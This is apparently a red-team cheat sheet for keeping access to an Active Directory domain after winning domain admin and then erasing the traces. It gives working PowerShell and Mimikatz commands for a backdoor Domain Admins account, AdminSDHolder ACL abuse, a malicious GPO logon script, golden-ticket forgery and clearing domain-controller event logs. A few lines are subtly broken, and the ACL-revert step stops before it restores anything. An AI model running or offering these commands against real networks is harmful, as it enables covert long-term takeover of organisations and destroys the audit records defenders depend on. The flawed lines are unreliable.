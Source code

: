 ### Introduction  
After achieving DA, establish persistence and clean up evidence.

### Definitions  
1. **SIDHistory**: Maintains old SIDs after migration—can be abused.  
2. **Golden Ticket**: Forged TGT enabling persistent KDC authentication.  
3. **Silver Ticket**: Forged service ticket.  
4. **GPO Backdoor**: Malicious GPO linked to maintain persistence.  
5. **Event Log Manipulation**: Clearing Windows logs to cover tracks.

### Why It Matters  
- Persistence ensures access; cleanup reduces detection.

### Tools & Commands  

#### Backdoor DA Account  
```powershell
New-ADUser -Name "svc_persistence" -SamAccountName "svc_persistence" -AccountPassword (ConvertTo-SecureString "P3rs1st!" -AsPlainText -Force) -Enabled $true -Path "CN=Users,DC=corp,DC=local"
Add-ADGroupMember -Identity "Domain Admins" -Members "svc_persistence"
```

#### Protect with AdminSDHolder  
```powershell
$sdhPath = "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
$acl = Get-Acl $sdhPath
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\svc_persistence","GenericAll","Allow")
$acl.AddAccessRule($rule)
Set-Acl -AclObject $acl $sdhPath
```

#### GPO Backdoor  
```powershell
New-GPO -Name "Corp-Backdoor" -Comment "Backdoor GPO"
Set-GPRegistryValue -Name "Corp-Backdoor" -Key "HKLM:\Software\Microsoft\Windows\CurrentVersion\Group Policy\Scripts\Logon\0\0" -ValueName "Script" -Type String -Value "powershell -Command `"Add-LocalGroupMember -Group 'Administrators' -Member 'corp\svc_persistence'`"
New-GPLink -Name "Corp-Backdoor" -Target "DC=corp,DC=corp,DC=local" -Enforced Yes
```

#### Golden Ticket  
```powershell
Mimikatz.exe 'kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:HASH /id:500 /groups:512 /ptt'
```

#### Cleanup  
- **Clear Event Logs**:  
  ```powershell
  Invoke-Command -ComputerName DC01.corp.local -ScriptBlock {
    wevtutil cl Security
    wevtutil cl System
    wevtutil cl Application
  }
  ```  
- **Remove Backdoor Account**:  
  ```powershell
  Remove-ADGroupMember -Identity "Domain Admins" -Members "svc_persistence" -Confirm:$false
  Remove-ADUser -Identity "svc_persistence"
  ```  
- **Revert AdminSDHolder ACL**:  
  ```powershell
  $sdhPath = "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
  $acl = Get-Acl $sdhPath
  ```